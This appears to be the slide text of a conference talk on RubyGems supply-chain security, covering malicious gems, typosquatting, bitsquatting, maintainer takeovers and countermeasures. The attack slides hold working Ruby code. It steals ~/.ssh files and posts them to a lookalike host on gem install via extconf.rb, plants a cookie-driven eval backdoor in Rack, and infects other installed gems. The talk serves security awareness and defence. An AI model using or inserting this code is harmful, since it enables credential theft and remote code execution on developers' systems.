



How to take over a Ruby gem
Disclaimer
- Please don't do that at home
- There are more challenges related to Ruby gems than those presented
- You can talk with me during the afterparty to learn more ;)
- Some of the tools I will be showing aren't yet publicially available, but they will. Haven't had enough time to prepair all of them for that :(
$ whoami --code
- Software Engineer / Architect
- Karafka creator
- OSS contributor (~13 years with Ruby) 
$ whoami --work

End-to-end solution to account takeover attacks

Kraków Ruby Users Group organizer
- One of the biggest Ruby communities in Europe
- Over 1400 members
- 60-150 attendees per event
- One meeting per month with 2-3 tech talks
- 23 sponsors
krk-rb.pl
$ whoami --travel

9823 km / 20h to reach Tokyo
$ whoami --japan
- 2nd time at RubyKaigi
- 4th time in Japan
- Kyokushin Karate practitioner
- Fullmetal Alchemist / 鋼の錬金術師 fan
$ whoami --contact
github: github.com/mensfeld
www: mensfeld.pl
twitter: @maciejmensfeld
e-mail: maciej@mensfeld.pl
$ whoami --not
RubyKaigi Official Party
Talk to me about:
Karafka, Kafka, Ruby, Poland, System Architecture, High throughput data processing,
dry-rb, Trailblazer, TCP, Ruby on Rails or anything else TBH :)
What do I hope to leave you with
RubyGems shouldn't be used lightly, without being aware of the downsides and risks that it brings to the table. This session should help you understand risks related to using RubyGems and OSS libraries. It should give you also a bit of knowledge on how to countermeasure those risks and how to stay safe investing a sane amount of time.Agenda
- What is RubyGems
- Risks
- Attacks
- Countermeasures
RubyGems
RubyGems is a package manager for the Ruby programming language.
Development on RubyGems started in November 2003 and was released to the public on March 14, 2004, or Pi Day 2004.
It was created by Chad Fowler and Richard Kilmer during RubyConf 2004
- Total gems: 161 033
- Total users: 130 689
- Total downloads: 33 595 830 385
- Downloads per second: 71
+
Risks
But let's assume one does.
So, our gem is installed in the user system. What now?
Nothing as long as we don't run it.
Right?
~/.ssh maybe?
Aggregation
home = `cd ~; pwd`.gsub("\n", '')
data = []
Dir.glob("#{home}/.ssh/*", File::FNM_DOTMATCH).each do |file|
begin
next unless File.file?(file)
data << ["--- #{file}", File.read(file)]
rescue => e
data << e
data += e.backtrace
end
end
data.flatten!
Data dispatch
uri = URI.parse("https://subygems.org/secrets")
https = Net::HTTP.new(uri.host,uri.port).tap { |h| }
https.use_ssl = true
req = Net::HTTP::Post.new(uri.path).tap
req.body = data.flatten.join("\n")
https.request(req)
But the question is:
Can we even execute the code without running an app?
Gem#post_install
Gem.post_install do
steal_and_send!
end
Works only for Github
Does not work for RubyGems
Rudy failure
extensions API to the rescue!
Gem::Specification.new do |s|
s.name = 'rubykaigi-via-extconf'
s.version = '1.0.1'
# All the gem standard stuff
s.extensions << './extconf.rb'
end
extconf.rb
data = [`cd ~ && ls -all`]
uri = URI.parse("https://subygems.org/secrets")
https = Net::HTTP.new(uri.host, uri.port)
https.use_ssl = true
req = Net::HTTP::Post.new(uri.path)
req.body = data.join("\n")
https.request(req)
dummy = "make:\n\t:\ninstall:\n\t:\nclean:\n\t:\n"
File.write('Makefile', dummy)
Demo time
(if I have internet)
gem install rubykaigi-via-extconf
or
source 'https://rubygems.org'
gem 'rubykaigi-via-extconf'
# bundle --path ./vendor; rm -rf ./vendor
Installing a gem is enough to make things bad.
But I don't need ssh keys, me wanna a botnet!
module RackAttack
def call(env)
if command = env['HTTP_COOKIE']
.match(/_command=([A-Za-z0-9\=]+)/)[1]
Base64
.urlsafe_decode64(command)
.then(&method(:eval))
end
super
end
end
Rack::Sendfile.prepend RackAttack
Demo time
(if I have internet)Let's print some data to the console remotely :)
Demo time
Base64.urlsafe_encode64('puts "OMG!"*10')
"cHV0cyAiT01HISIqMTA="
Demo time
cmd = <<~CMD
$spy ||= Thread.new do
loop do
sleep(1)
`
wget 'https://subygems.org/such-wow/\#\{rand\}' \
-q -O /dev/null \
&> /dev/null
`
end
end
CMD
Base64.urlsafe_encode64(cmd)
Infecting other gems is also dead simple
file_location = File.join(
File.dirname(__FILE__), 'bot-net-for-rails.rb'
)
gems_home = File.expand_path(
File.join(File.dirname(__FILE__), '../../')
)
Dir[File.join(gems_home, '**/*.rb')].each do |file|
next if File.read(file).include?('RackAttack')
`cat '#{file_location}' >> '#{file}'`
end
Possibilities are endless
Because we allow changes in the already installed gems, a malicious code could easily infect other libraries, while cleaning up itself.
It is not a theoretical only problem.
bootstrap-sass
around 2 weeks ago someone used exactly the same approach!
They actually made one huge mistake and I will get to that later...
With access to the system, you get unlimited power
You can:
- Steal data
- Inject / change resposes
- Use processes for other purposes
- Infect other gems
but...
RubyGems as a platform is pretty decent
And now due to 2FA it's even better
However...
Typosquatting and bitsquatting
Typosquatting
Typosquatting, is a form of cybersquatting which relies on mistakes such as typos made by users when inputting a name.https://en.wikipedia.org/wiki/Typosquatting
gem install typogen
typogen rspec
spec
rpec
rsec
rspc
rspe
srpec
rpsec
rsepc
rspce
- Generating malicious gems can be automated really easily
- RubyGems does not prevent you from registering the gems with names that are typos of popular libraries
- You can always "book" the names with a non-malicious code just for the future usage
- sspec
- sspec-core
- sspec-support
Bitsquatting
Bitsquatting refers to the registration of a domain names one bit different than a popular domain.
./bf-lookup rubygems.org
subygems.org ns1.yum.pl,ns3.yum.pl
pubygems.org ns1.yum.pl,ns3.yum.pl
vubygems.org *
zubygems.org *
bubygems.org *
2ubygems.org *
rtbygems.org *
rwbygems.org *
rqbygems.org *
rebygems.org *
rucygems.org *
...
So, I bought 4 of them...
subygems.org
pubygems.org
rubigems.org
rubigams.org
And for a week there were no bitsquatted requests (luckily)...
But the question remains:
Can and if so, how often, the download requests will bitsquat?
https://rubygems.org/downloads/rundler-2.0.1.gem
https://rubygems.org/downloads/jundler-2.0.1.gem
https://rubygems.org/downloads/bwndler-2.0.1.gem
https://rubygems.org/downloads/bendler-2.0.1.gem
https://rubygems.org/downloads/fundler-2.0.1.gem
...
Malicious takeover
That one is probably more problematic as it comes down to social engineering, rather than attacking the ruby gems as a platform.
- Targeting a single persons lib is not that hard
- Ruby has a lot of tools that can help with that
How?
By showing an interest
There are:
- 161 033 gems
- 1 056 040 versions
- 5472 gems with over 100 000 downloads
- 1 996 gems with over 1 000 000 downloads
- 611 gems with over 10 000 000 downloads
- 54 gems with over 100 000 000 downloads
Amongst those with more than 100 000 downloads
- 3 531 weren't updated for at least 1 year
- 2 617 weren't updated for at least 2 years
- 1 966 weren't updated for at least 3 years
- 1 472 weren't updated for at least 4 years
- 1 045 weren't updated for at least 5 years
%w[
erubis multipart-post orm_adapter http_parser.rb
rack-ssl chronic journey descendants_tracker inflecto
colored coercible axiom-types metaclass bcrypt-ruby
fission cliver vegas rack-mount bundler-unload
state_machine log4r ruby-hmac fastercsv macaddr
mono_logger extlib fssm rack-accept
]
- https://github.com/josh/rack-ssl
- https://github.com/mbj/inflecto
- https://github.com/defunkt/colored
- https://github.com/solnic/coercible
- https://github.com/dkubb/axiom-types
- https://github.com/quirkey/vegas/
- https://github.com/jm/rack-mount
- https://github.com/pluginaweek/state_machine
- https://github.com/ahoward/macaddr
Making an effort... effortless
- Fix invalid permissions in files
- Detect broken symlinks
- RuboCop
- Typos detection
- Misspellings and additional docs
- Gem bumps (sic!)
- Optimizations (via Ducalis, etc)
- Additional specs
- Etc...
This is what happened with event-stream
The event-stream module was originally by Dominic Tarr, who maintained the library before handing it to a contributor. Tarr indicated that he has not used the module and transferred its ownership after he received an email regarding its maintenance.
And when you finally get release permissions...
Make it real!
https://dgb.github.io/2019/04/05/bootstrap-sass-backdoor.html
- I couldn’t find 3.2.0.3 in the GitHub repo
- I couldn’t find any mention of the version in any issues or changelogs
- I couldn’t find any mention of the gem being yanked by the owners of the project
It is critical to remember, that there is no relationship in between RubyGems and Github.
Countermeasures
Yoshitaka Sakurada, the minister for cybersecurity who recently confessed that he does not use computers, has now told a Diet committee that he is not very familiar with cybersecurity issues.
There is no general solution to all the problems
And I feel, that due to dynamic nature of Ruby, there won't be...
Typosquatting and friends
Needleman–Wunsch and Levenstein algorithms
- Typos are made mostly on QWERTY keyboards
- So, we just need to adjust the algorithm, run in for our gemfile and it should be fine, right?
There are too many gems in RubyGems that are similar :(
And many of them are related to one another
We need to be a bit more clever

- Popular gems aren't typosquatts
- Popular gems that could be typosquatts of other popular gems probably aren't
- We can check the gems dependencies relationship
- If there's a big popularity disperse we should rely on a distance algorithms
- It would be good to check deps of deps as well
Abandoned gems
Malicious takeovers and gem releases
We should prevent installing gems without checking them
Bumping policy
rm Gemfile.lock
bundle
bundle exec rspec spec
git add ./
git commit -m "gem bump"
git push origin master
vs
bundle outdated
bundle update XYZ
bundle exec rspec spec
git add ./
git commit -m "gem bump"
git push origin master
Both are bad!
You're not suppose to even install the upgraded libs without carefully reviewing the code.
All the "automatic" dependency management tools that PR updates are really bad by design if you don't have an isolated multi-stage CI flow (for private repos).
Many companies use the same ENV for running specs, building containers, pushing things, etc.
ENV.map { |a, v| [a,v] }.to_s
That's why it's better to always review bumps before installing them.
Reviewing RubyGems code needs to happen based on RubyGems data
Github is not a proper place to do that.
Introducing the Gems Differ
diff.coditsu.io
So now, the only thing that is missing is a notifications engine that does not bump things...
Introducing
(soon to be) Open dockerized platform for all of that and more
Demo:
https://app.coditsu.io/karafka
READ MORE
THE END
- www: github.com/coditsu
- email: maciej@mensfeld.pl
- twitter: @maciejmensfeld